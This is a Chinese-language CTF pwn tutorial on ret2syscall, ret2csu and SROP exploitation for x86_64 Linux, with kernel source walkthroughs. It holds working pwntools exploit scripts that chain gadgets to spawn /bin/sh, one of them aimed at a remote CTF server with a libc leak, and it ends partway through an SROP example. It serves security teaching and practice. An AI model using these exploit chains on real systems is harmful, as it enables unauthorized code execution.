









# ROP 技巧补坑

本节作者:EROORvbsyes

## 前言

前面我们讲了不少 `ret2xxx` 系列，但是把 `ret2syscall` 漏掉了。  
这篇就先把这个坑补上，顺手把 `ret2csu` 和 `SROP` 也带一下。

可以配套视频，但是别找了，syscall视频我没录。  
另外这次的 blog 是我用手机写的，所以图会比较少，基本可以当成纯文字笔记看。

> 说明：本文默认讨论 **x86_64 Linux** 场景。  
> 如果是 32 位程序、其他架构，或者题目开了额外限制，那么系统调用号、寄存器约定和 gadget 写法都要重新确认。

## ret2syscall

### 基本原理

程序和内核交互要靠系统调用，可以粗略理解成：

```c
SYSCALL(syscall_id, arg1, arg2, ...);
```

系统调用本质上是内核暴露给用户态程序的接口。像文件读写、网络通信、进程控制这类操作，最后都要落到系统调用上。

不同架构发起系统调用的方式不同：

- 32 位 Linux 常见是 `int 0x80`
- 64 位 Linux 常见是 `syscall`

在 **x86_64 Linux** 下，常见的系统调用约定是：

- `rax`：系统调用号
- `rdi`、`rsi`、`rdx`、`r10`、`r8`、`r9`：前 6 个参数
- 返回值放回 `rax`

> 这里要区分清楚“函数调用约定”和“系统调用约定”。  
> 例如普通的 System V AMD64 调用约定里第 4 个参数常走 `rcx`，但 `syscall` 这里通常要放到 `r10`。

系统调用进入内核态后，可能很快返回，也可能发生阻塞。  
它的额外开销主要来自用户态和内核态之间的切换，而不是“所有系统调用都一定特别慢”。

### 一个简单的 `read` 例子

`read` 本身就是系统调用，`libc` 里的 `read` 只是对它的一层封装。  
为了方便说明，这里直接假设缓冲区地址已经准备好了：

```asm
mov rdi, 0      ; fd = 0, stdin
mov rsi, buf    ; buf
mov rdx, 64     ; count
mov rax, 0      ; __NR_read
syscall
```

这段代码等价于：

```c
read(0, buf, 64);
```

如果系统调用失败，错误通常会体现在 `rax` 返回负值，而不是“程序自动停住”。

### 在 ROP 里怎么用

`ret2syscall` 的核心思路是：当我们拿不到 `libc` 地址，或者题目本来就是想考系统调用时，直接布置好寄存器，然后执行 `syscall` gadget。

在 x86_64 Linux 下，如果我们想执行：

```c
execve("/bin/sh", NULL, NULL);
```

那么需要满足：

- `rax = 59`
- `rdi = "/bin/sh"` 的地址
- `rsi = 0`
- `rdx = 0`

对应的 ROP 链可以写成：

```plain
pop rdi ; ret
bin_sh_addr
xor rsi, rsi ; ret
xor rdx, rdx ; ret
pop rax ; ret
59
syscall ; ret
```

如果没有 `xor rsi, rsi ; ret` 或 `xor rdx, rdx ; ret` 这类 gadget，也可以改成 `pop rsi ; ret`、`pop rdx ; ret` 再传 `0`。

这样做的好处是：

- 不依赖 `system` 或 `execve` 的 `libc` 地址
- 很适合没有 libc 泄露、但有足够 syscall/gadget 的题
- 常见用途包括拿 shell、做 ORW（`open` / `read` / `write`）等

> `ret2syscall` 并不等于“一定不会出错”。  
> 你仍然要确认：
>
> - 架构和系统调用号是否匹配
> - gadget 是否真的以 `ret` 结束
> - 指针是否可访问
> - 当前链条是否满足栈和寄存器约束

### 调试时要注意什么

最容易混淆的点，不是“内核版本差一点就完全不能用”，而是下面这些：

- **架构不同**：32 位和 64 位的系统调用号、寄存器约定都不同
- **ABI 不同**：别把普通函数调用约定和 `syscall` 约定混在一起
- **返回值判错**：系统调用失败时，通常是 `rax` 返回错误码，而不是直接崩溃
- **安全机制限制**：有些题会开 `seccomp`，这时不是链子写错，而是系统调用本身被过滤了

### 总结补充

>当题目是x86_32的时候就不能用syscall了，此时要用`int 0x80`来进行系统调用，但还是使用eax传递调用号,edi,esi,edx等寄存器分别传递参数。

### 具体题目

#### 分析

这个题目给出了源文件，我们直接看：

```C
#include<stdlib.h>
#include<stdio.h>
#include<unistd.h>
#include<string.h>
char binsh[]="/bin/sh";
int you_can_not_exec(){
    asm volatile (
        "pop rdi;"
        "ret;"
        "pop rax;"
        "ret;"
        "pop rsi;"
        "ret;"
        "pop rdx;"
        "ret;"
        "syscall;"
    );
    return 0;
}
int vuln(){
    char vul[0x80];
    memset(vul,0,0x80);
    read(0,vul,0x100);
    puts(vul);
    return 0;
}
int main(){
    vuln();
    return 0;
}
```

```bash
(PLANA)--> pwn checksec ./ret2syscall 
[*] '/home/kali/ctfwiki/ret2syscall/ret2syscall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

可以看到没有PIE

我们提取一下gadget:

```asm
0x000000000040114c : pop rax ; ret
0x000000000040112d : pop rbp ; ret
0x000000000040114a : pop rdi ; ret
0x0000000000401150 : pop rdx ; ret
0x000000000040114e : pop rsi ; ret
0x0000000000401152 : syscall
```

这个题目比较简单，我们考虑这样构造payload:

|STACK|
|-----|
|rbp_space|
|pop rdi(原rip_space)|
|bin_sh_address|
|pop rdx|
|0|
|pop rsi|
|0|
|pop rax|
|59|
|syscall|

这样就相当于执行了`SYS_execve("/bin/sh",0,0);`这句代码可以在6.x内核版本中正常运行，5.12.13不可用，其他版本内核笔者还暂未考证，请读者自证。

#### exp

```python
#!/bin/python3
from pwn import *
p=process("./ret2syscall")
pop_rdi=0x000000000040114a
pop_rax=0x000000000040114c
pop_rdx=0x0000000000401150
pop_rsi=0x000000000040114e
syscall=0x0000000000401152
payload=b""
payload+=b"\x00"*0x80
payload+=p64(0)
payload+=p64(pop_rdi)
payload+=p64(binsh)#binsh地址需要自己提取
payload+=p64(pop_rsi)
payload+=p64(0)
payload+=p64(pop_rdx)
payload+=p64(0)
payload+=p64(pop_rax)
payload+=p64(59)
payload+=p64(syscall)
p.send(payload)
p.interactive()
```

## ret2csu

`ret2csu` 一般是利用 `__libc_csu_init` 里的 gadget，来完成参数控制和一次间接调用。  
它常见于没有现成 `pop rdx ; ret`、`pop rsi ; ret` 等 gadget 的场景。

> 先提醒一句：`ret2csu` 的可用性和具体形态取决于实际二进制。  
> 新工具链下，经典 gadget 可能变少，甚至根本没有，所以一定要以**你手上的反汇编结果**为准。

下面这个例子里，我们主要关注两段：

```asm
0000000000401240 <__libc_csu_init>:
  ...
  401280:       mov    rdx, r15    // 标号1
  401283:       mov    rsi, r14
  401286:       mov    edi, r13d
  401289:       call   qword ptr [rbx+r12*8]
  40128d:       add    r12, 0x1
  401291:       cmp    rbp, r12
  401294:       jne    401280 <__libc_csu_init+0x40>
  401296:       add    rsp, 0x8
  40129a:       pop    rbx         // 标号2
  40129b:       pop    rbp
  40129c:       pop    r12
  40129e:       pop    r13
  4012a0:       pop    r14
  4012a2:       pop    r15
  4012a4:       ret
```

### 这一版 gadget 的寄存器关系

如果先执行“标号 2”，再跳到“标号 1”，那么这份反汇编里常见的控制关系是：

- `rbx = 函数指针所在的内存地址`
- `rbp = 1`
- `r12 = 0`
- `r13 = edi`
- `r14 = rsi`
- `r15 = rdx`

原因是这里真正执行的是：

```asm
call qword ptr [rbx + r12*8]
```

所以如果想只调用一次，通常让：

- `r12 = 0`
- `rbp = 1`

这样 `add r12, 1` 之后就能满足退出条件，不会继续循环。

> 注意：
>
> - 这里调用的是“内存里的函数指针”，不是把函数地址直接塞给 `rbx`
> - `mov edi, r13d` 只会保留低 32 位，所以第一个参数如果是 64 位指针，往往还得额外找 `pop rdi ; ret`
> - 不同二进制里也常见 `call [r12 + rbx*8]` 这种变体，寄存器含义会跟着交换，别照抄模板

### 一个更稳妥的 payload 例子

原文里那个 `payload = flat(...)` 会把前面已经拼进去的内容覆盖掉，而且少了循环退出后要吃掉的栈槽。  
更稳妥的写法可以像这样：

```python
def build_ret2csu(func_ptr_addr, edi, rsi, rdx, next_rip):
    payload  = p64(CSU_POP_GADGET)   # 标号2
    payload += flat(
        func_ptr_addr,  # rbx
        1,              # rbp
        0,              # r12
        edi,            # r13 -> edi
        rsi,            # r14 -> rsi
        rdx,            # r15 -> rdx
    )
    payload += p64(CSU_CALL_GADGET)  # 标号1

    # 经过 call / add / cmp 之后，函数还会继续执行：
    # add rsp, 0x8; pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
    payload += flat(
        0,  # add rsp, 0x8 吃掉的占位
        0, 0, 0, 0, 0, 0,
        next_rip,
    )
    return payload
```

这个版本的重点不是“万能模板”，而是提醒你两件事：

- 要按**实际 pop 顺序**摆参数
- 要把 gadget 后续会额外消耗的栈空间一起算进去

### 题目

这里可以看一下第 18 届极客大挑战的 `oldrop`，考的是 `csu` 的变种，挺适合练手。[题目](https://github.com/eroorvbsyes-hotmail/18th-JeKeChallange-Pwn/tree/main/oldrop/attchment)

因为篇幅问题，这里请大家自主思考
exp:

```python
from pwn import *
# p=process("./pwn")
context.log_level='debug'
p=remote("geek.ctfplus.cn",32150)
elf=ELF("./pwn")
libc=ELF("./libc/libc.so.6")
'''
.text:00000000004012B0 loc_4012B0:                             ; CODE XREF: init+54↓j
.text:00000000004012B0                 mov     rdx, r14
.text:00000000004012B3                 mov     rsi, r13
.text:00000000004012B6                 mov     edi, r12d
.text:00000000004012B9                 call    qword ptr [r15+rbx*8]
.text:00000000004012BD                 add     rbx, 1
.text:00000000004012C1                 cmp     rbp, rbx
.text:00000000004012C4                 jz      short loc_4012B0
.text:00000000004012C6
.text:00000000004012C6 loc_4012C6:                             ; CODE XREF: init+35↑j
.text:00000000004012C6                 add     rsp, 8
.text:00000000004012CA                 pop     rbx //0
.text:00000000004012CB                 pop     rbp
.text:00000000004012CC                 pop     r12 //edi
.text:00000000004012CE                 pop     r13 //rsi
.text:00000000004012D0                 pop     r14 //rdx
.text:00000000004012D2                 pop     r15 //rip
.text:00000000004012D4                 retn
'''
def get_csu(rbx,rsi,edi,rip,rbp,rdx):
    payload=p64(rbx)+p64(rsi)+p64(edi)+p64(rip)+p64(rbp)+p64(rdx)
    return payload
rbp=0x404500+0x500
ret=0x000000000040101a
reread=0x401162
entry=0x4012ca
end=0x4012b0
leave=0x0000000000401179
offset=128
start=0x401070
tmp_rbp=0x4043b0+0x500
mov_eax_ebp_syscall=0x000000000009b177
payload=b"\x00"*offset
payload+=p64(rbp+0x30)
payload+=p64(reread)
libc_partial=0x4049c8#0x404478+0x500
print(p.recvuntil(b"!\x00\n"))
p.send(payload)

payload=b"\x00"*(offset-0x30)
payload+=p64(start)
payload+=b"\x00"*(offset-len(payload))
payload+=p64(rbp)
payload+=p64(start)
p.send(payload)
print(p.recvuntil(b"!\x00\n"))

payload=p64(elf.symbols['write'])
payload+=p64(reread)
payload+=b"\x00"*(offset-len(payload))
payload+=p64(tmp_rbp)
payload+=p64(entry)
payload+=get_csu(0,tmp_rbp,1,libc_partial,8,0x404330+0x500)
payload+=p64(end)
payload+=p64(0)
payload+=get_csu(0,tmp_rbp,1,libc_partial,8,0x404330+8+0x500)
payload+=p64(end)
p.send(payload)
recv=p.recv(8)
print(recv)
libc_base=u64(recv)-0x2a28b#0x252000
log.success(f"libc_base is {str(hex(libc_base))}")
log.success(f"libc_start_main+139 is {str(hex(u64(recv)))}")
ret_libc=0x000000000002882f


payload=p64(libc_base+mov_eax_ebp_syscall)
payload+=b"/bin/sh\x00"
payload+=b"\x00"*(0x80-len(payload))
payload+=p64(0)#0x404330
payload+=p64(entry)
payload+=get_csu(0,59,0x404330+8+0x500,0,0,0x404330+0x500)#
payload+=p64(end)
# gdb.attach(p,gdbscript="b *0x40117b")
p.send(payload)
p.interactive()

```

## SROP

可以先参考这个视频：  
[CTF 基础教程 ---- Pwn 第四课 SROP - 哔哩哔哩](https://b23.tv/xqhC94u)

**本章将会从内核角度开始从底层逐渐剖析SROP的基本原理，需要读者具备C语言的阅读能力。如果您暂时对C语言不熟悉，可以直接看总结。**

`SROP`（Sigreturn-Oriented Programming） 是一种精巧的漏洞利用技术，它利用 `Unix/Linux` 系统中的信号处理机制和 `sigreturn` 系统调用，能够以极少的 gadget 控制大量寄存器(**并不代表占用空间少**)，甚至实现任意代码执行。

### signal 机制

`signal` 机制是`类 unix` 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 `kill` 来发送软中断信号。

内核向某个进程发送 `signal` 机制，该进程会被暂时挂起，进入内核态。

内核会为该进程保存相应的上下文，主要是将所有寄存器压入栈中，以及压入 `signal` 信息，以及指向 `sigreturn` 的系统调用地址。此时栈的结构如下图所示，我们称 `ucontext` 以及 `siginfo` 这一段为 `Signal Frame`。需要注意的是，这一部分是在用户进程的地址空间的。之后会跳转到注册过的 `signal handler` 中处理相应的 `signal`。因此，当 `signal handler` 执行完之后，就会执行 `sigreturn` 代码。

那么，对应的在Linux中存在这么一个系统调用:`rt_sigreturn` 。接下来我们仔细分析一下它的代码。

### rt_sigreturn 详细剖析

该机制在Linux内核中被实现为rt_sigreturn,我们来阅读一下他的代码：(我们这里讨论64位，代码基于Linux-5.12.13内核)

```C
SYSCALL_DEFINE0(rt_sigreturn)
{
 struct pt_regs *regs = current_pt_regs(); //取程序当前的寄存器列表
 struct rt_sigframe __user *frame;
 sigset_t set;
 unsigned long uc_flags;

 frame = (struct rt_sigframe __user *)(regs->sp - sizeof(long)); //基于程序rsp计算frame
 if (!access_ok(frame, sizeof(*frame))) //检查frame合法性
  goto badframe;
 if (__get_user(*(__u64 *)&set, (__u64 __user *)&frame->uc.uc_sigmask)) //拷贝uc.uc_sigmask
  goto badframe;
 if (__get_user(uc_flags, &frame->uc.uc_flags)) //拷贝uc.uc_flags
  goto badframe;

 set_current_blocked(&set);

 if (restore_sigcontext(regs, &frame->uc.uc_mcontext, uc_flags)) //拷贝寄存器
  goto badframe;

 if (restore_altstack(&frame->uc.uc_stack))
  goto badframe;

 return regs->ax; //返回rax寄存器的值，这样再调用后，rax依旧不会改变

badframe:
 signal_fault(regs, frame, "rt_sigreturn");
 return 0;
}
```

我们不难发现，只有当`restore_sigcontext`返回0值才能正常走return，否则进程就会被rt_sigreturn终止。

那么接下来我们就需要观察`restore_sigcontext`函数了。

```C
static int restore_sigcontext(struct pt_regs *regs,
         struct sigcontext __user *usc,
         unsigned long uc_flags)
{
 struct sigcontext sc;

 /* Always make any pending restarted system calls return -EINTR */
 current->restart_block.fn = do_no_restart_syscall;

 if (copy_from_user(&sc, usc, CONTEXT_COPY_SIZE)) //从用户空间安全拷贝
  return -EFAULT;
 regs->bx = sc.bx;
 regs->cx = sc.cx;
 regs->dx = sc.dx;
 regs->si = sc.si;
 regs->di = sc.di;
 regs->bp = sc.bp;
 regs->ax = sc.ax;
 regs->sp = sc.sp;
 regs->ip = sc.ip; //改写指令计数寄存器
 regs->r8 = sc.r8;
 regs->r9 = sc.r9;
 regs->r10 = sc.r10;
 regs->r11 = sc.r11;
 regs->r12 = sc.r12;
 regs->r13 = sc.r13;
 regs->r14 = sc.r14;
 regs->r15 = sc.r15;
 /* Get CS/SS and force CPL3 */
 regs->cs = sc.cs | 0x03;
 regs->ss = sc.ss | 0x03;
 regs->flags = (regs->flags & ~FIX_EFLAGS) | (sc.flags & FIX_EFLAGS);
 /* disable syscall checks */
 regs->orig_ax = -1;
 /*
  * Fix up SS if needed for the benefit of old DOSEMU and
  * CRIU.
  */
 if (unlikely(!(uc_flags & UC_STRICT_RESTORE_SS) && user_64bit_mode(regs)))
  force_valid_ss(regs);
 return fpu__restore_sig((void __user *)sc.fpstate,
          IS_ENABLED(CONFIG_X86_32));
}


```

我们发现改写寄存器的主要操作就在这一步完成的，其中`regs`结构体保存在内核里面，`sc`则是在用户栈上，从用户栈上恢复寄存器到程序`regs`结构体，在最后函数退出时就会将`regs`中的值赋给寄存器了。

先来看看`pt_regs`的定义:

```C
struct pt_regs {
/*
 * C ABI says these regs are callee-preserved. They aren't saved on kernel entry
 * unless syscall needs a complete, fully filled "struct pt_regs".
 */
 unsigned long r15;
 unsigned long r14;
 unsigned long r13;
 unsigned long r12;
 unsigned long bp;
 unsigned long bx;
/* These regs are callee-clobbered. Always saved on kernel entry. */
 unsigned long r11;
 unsigned long r10;
 unsigned long r9;
 unsigned long r8;
 unsigned long ax;
 unsigned long cx;
 unsigned long dx;
 unsigned long si;
 unsigned long di;
/*
 * On syscall entry, this is syscall#. On CPU exception, this is error code.
 * On hw interrupt, it's IRQ number:
 */
 unsigned long orig_ax;
/* Return frame for iretq */
 unsigned long ip;
 unsigned long cs;
 unsigned long flags;
 unsigned long sp;
 unsigned long ss;
/* top of stack page */
};
```

再看看**sigcontext**结构体，这个尤为重要，是SROP的核心结构体

```C
struct rt_sigframe {
 char __user *pretcode;
 struct ucontext uc;
 struct siginfo info;
 /* fp state follows here */
};

struct ucontext {
 unsigned long   uc_flags;
 struct ucontext  *uc_link;
 stack_t    uc_stack;
 struct sigcontext uc_mcontext;
 sigset_t   uc_sigmask; /* mask last for extensibility */
};

typedef struct sigaltstack {
 void __user *ss_sp;
 int ss_flags;
 size_t ss_size;
} stack_t;

struct sigcontext {
 __u64    r8;
 __u64    r9;
 __u64    r10;
 __u64    r11;
 __u64    r12;
 __u64    r13;
 __u64    r14;
 __u64    r15;
 __u64    rdi;
 __u64    rsi;
 __u64    rbp;
 __u64    rbx;
 __u64    rdx;
 __u64    rax;
 __u64    rcx;
 __u64    rsp;
 __u64    rip;
 __u64    eflags;  /* RFLAGS */
 __u16    cs;
 __u16    gs;
 __u16    fs;
 union {
  __u16   ss; /* If UC_SIGCONTEXT_SS */
  __u16   __pad0; /* Alias name for old (!UC_SIGCONTEXT_SS) user-space */
 };
 __u64    err;
 __u64    trapno;
 __u64    oldmask;
 __u64    cr2;
 struct _fpstate __user  *fpstate; /* Zero when no FPU context */
 __u64    reserved1[8];
};

```

那么实际上，整个我们要布置的payload应该是`rt_sigframe`展开后：

```C
struct rt_sigframe{
 char __user *pretcode;
 unsigned long   uc_flags;    
 struct ucontext  *uc_link;
 void __user *ss_sp;
 int ss_flags;
 size_t ss_size;
 __u64    r8;
 __u64    r9;
 __u64    r10;
 __u64    r11;
 __u64    r12;
 __u64    r13;
 __u64    r14;
 __u64    r15;
 __u64    rdi;
 __u64    rsi;
 __u64    rbp;
 __u64    rbx;
 __u64    rdx;
 __u64    rax;
 __u64    rcx;
 __u64    rsp;
 __u64    rip;
 __u64    eflags;  /* RFLAGS */
 __u16    cs;
 __u16    gs;
 __u16    fs;
 union {
  __u16   ss; /* If UC_SIGCONTEXT_SS */
  __u16   __pad0; /* Alias name for old (!UC_SIGCONTEXT_SS) user-space */
 };
 __u64    err;
 __u64    trapno;
 __u64    oldmask;
 __u64    cr2;
 struct _fpstate __user  *fpstate; /* Zero when no FPU context */
 __u64    reserved1[8];
 sigset_t   uc_sigmask; /* mask last for extensibility */
 struct siginfo info; //直接忽略，基本不影响程序运行
 
}
```

这张图算很老了，但是很经典:

我们跟踪`restore_sigcontext`的`frame = (struct rt_sigframe __user *)(regs->sp - sizeof(long));`这一行。可以发现这一行代码基于用户栈指针rsp获得了`frame`。后面该函数又会基于该frame给寄存器赋值。

我们看到这里也就知道了SROP是比较耗栈上空间的。一个 Signal Frame 在 x64 下通常占用约 0x100~0x200 字节(连续)，栈溢出时要确保有足够空间。

那么我们在下面贴出测试代码，验证我们之前分析的准确性

```C
#include "kernelpwn.h"
typedef struct stack_t {
 void *ss_sp;
 int ss_flags;
 size_t ss_size;
} ;

typedef struct sigset_t{
 unsigned long sig[1];
} ;

struct ucontext {
 unsigned long   uc_flags;
 struct ucontext  *uc_link;
 stack_t    uc_stack;
 struct sigcontext uc_mcontext;
 sigset_t   uc_sigmask; /* mask last for extensibility */
};

struct rt_sigframe {
 char *pretcode;
 struct ucontext uc;
};

int ok(){
    puts("it's works!");
}
struct rt_sigframe *rt;
int main(){
    struct rt_sigframe rt_sigreturn;
    memset(&rt_sigreturn,0,sizeof(struct rt_sigframe));
    struct ucontext *uc = &rt_sigreturn.uc;
    struct sigcontext *regs = &uc->uc_mcontext;
    rt=&rt_sigreturn;
    regs->rip=(__u64)&ok;
    regs->rsp=(__u64)rt;
    regs->rbp=(__u64)rt;
    regs->cs=(__u16)0x33;
    regs->__pad0=(__u16)0x2b;
    ASM(
        "mov rsp,rt;"
        "add rsp,8;" //适配 frame = (struct rt_sigframe __user *)(regs->sp - sizeof(long));
        "mov rax,0xf;"
        "syscall;"
    );
    _exit(0);
}
```

因为在用户空间api没有定义`rt_sigframe`等结构体,所以我们这里直接在C里面实现其结构体。另外为了确保CPU不会在syscall返回时候因为ss和cs错误的值抛出`#GP`（一般保护异常）或 `#SS`（栈段异常）最终被转换成SIGSEGV信号导致程序被杀死，我们要将cs设置为0x33，将ss设置为0x2b
>**_注意：这里的cs和ss的值仅是在大多数平台是这样设置的，具体环境需要读者自己使用gdb调试得到_**

**_注意：在C标准库中当引入`sys/wait.h`等其他头文件时会自动包含`bits/sigcontext.h`这个头文件，此时就不要自己实现`sigcontext`这个结构体了。但还是推荐直接引入这个头文件，但是引入后，要注意ss寄存器在x64情况下结构体成员名叫做`__pad0`_**

这里作者使用的是自己的头文件其中ASM宏被实现为`#define ASM asm volatile`使用指令`gcc -static  -o test test.c -masm=intel`完成编译。

运行结果：

```bash
┌──(kali㉿kali)──<Just CTF For Pwn>──[~/hello-ctf/srop]
└─(PLANA)--> ./test                                 
it's works!
zsh: segmentation fault  ./test
```

可以看到成功输出了`it's works!`。但这里之所以爆出了段错误，是因为我们没有给`ok`函数布置返回地址，导致ret的时候地址无效，抛出了段错误

```plain
   0x401dd7 <ok+4>     lea    rax, [rip + 0x8f567]     RAX => 0x491345 ◂— "it's works!"
   0x401dde <ok+11>    mov    rdi, rax                 RDI => 0x491345 ◂— "it's works!"
   0x401de1 <ok+14>    call   puts                        <puts>
 
   0x401de6 <ok+19>    nop    
   0x401de7 <ok+20>    pop    rbp     RBP => 0x7fffffffdb20
 ► 0x401de8 <ok+21>    ret                                <0>
    ↓
```

验证证明了我们的分析是没有错误的。

### SROP基本原理总结

>最后我们知道了，如果需要进行SROP攻击，需要我们在栈上布置`rt_sigframe`结构体。并且要注意栈空间的大小并且对齐栈指针，最后将rax设置为15，并调用syscall。
>注意：因为SROP极度依赖`rt_sigreturn`系统调用，所以当程序开启沙盒后可能无法使用。而且SROP需要一个超长的连续空间用于结构体布置，若栈空间不足请考虑其他解法。
>SROP 的精髓在于利用内核“盲目信任” Signal Frame 的特性，以一次系统调用换取对所有寄存器的控制。它特别适合以下场景：
>
>- 程序没有足够的 pop rdi; ret、pop rsi; ret 等 gadget；
>- 程序自身含有 syscall 指令，且能控制 rax；
>- 栈上可以布置连续的大块数据。

### SROP题目示例

我们首先先给出[题目](https://github.com/eroorvbsyes-hotmail/hello-ctf-pwn/tree/main/files)

先用

```shell
file ./srop
```

看题目的架构


可以看见题目是一个64位的可执行程序。
现在就可以开始想64位程序如何传参了

再使用

```shell
pwn checksec --file=./srop
```

来查看程序保护开启情况


可以发现程序主要开启了NX保护，我们这时只能考虑使用ROP链来构造payload。
不能使用shellcode

再使用IDA Pro逆向程序(没有IDA的可以使用r2)


发现程序main函数非常简单，只有几行汇编代码
其中我们发现了syscall系统调用，它会造成一个系统中断，程序会将控制权交给系统内核
然后进入内核态，内核会为其保存寄存器状态(称为Signal Frame)，然后内核会执行注册过
的signal handler，执行后再退出内核态，控制权还回，但是Signal Frame是保存在栈上的，所以用户可以
控制这些信息，这样就导致了SROP,寄存器就会被用户控制。

其中main函数调用了系统调用号为0的系统调用(mov rax,0 //系统调用号通过rax寄存器传递)
下面附上Linux 64位系统调用表（部分,详情可见<https://blog.csdn.net/SUKI547/article/details/103315487）>
read：读取文件内容，系统调用号通常是0。
write：写入文件内容，系统调用号通常是1。
open：打开文件，系统调用号通常是2。
close：关闭文件描述符，系统调用号通常是3。
execve:执行一个命令,系统调用号通常是59
